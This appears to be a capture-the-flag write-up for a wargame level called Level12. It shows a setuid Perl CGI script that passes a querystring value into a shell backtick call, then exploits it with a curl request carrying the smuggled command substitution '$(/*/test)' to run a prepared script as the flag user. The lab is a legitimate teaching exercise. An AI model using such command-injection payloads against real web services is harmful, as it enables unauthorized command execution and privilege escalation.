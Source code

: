 # Level12
## Step by step
- In the user `level12` home directory, there is a file
  ```bash
  > ls
  -rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
  ```
- The `level12` fiel contains a program that  execute a CGI on request from localhost:4646 and take 2 querystrings `x` and `y`
  ```bash
  > cat level12.pl 
  #!/usr/bin/env perl
  # localhost:4646
  use CGI qw{param};
  print "Content-type: text/html\n\n";
  
  sub t {
    $nn = $_[1];
    $xx = $_[0];
    $xx =~ tr/a-z/A-Z/; 
    $xx =~ s/\s.*//;
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    foreach $line (@output) {
        ($f, $s) = split(/:/, $line);
        if($s =~ $nn) {
            return 1;
        }
    }
    return 0;
  }
  
  sub n {
    if($_[0] == 1) {
        print("..");
    } else {
        print(".");
    }    
  }
  
  n(t(param("x"), param("y")));
  ```
- The goal is to execute a command in ``@output = `egrep "^$xx" /tmp/xd 2>&1`;``
  ```bash
  > cat <<hey >/tmp/TEST
  > #!/bin/bash
  > getflag > /tmp/flag
  > hey

  > chmod +x /tmp/TEST

  > curl localhost:4646?x='$(/*/test)'

  > cat /tmp/flag
  Check flag.Here is your token : XXX
  ```
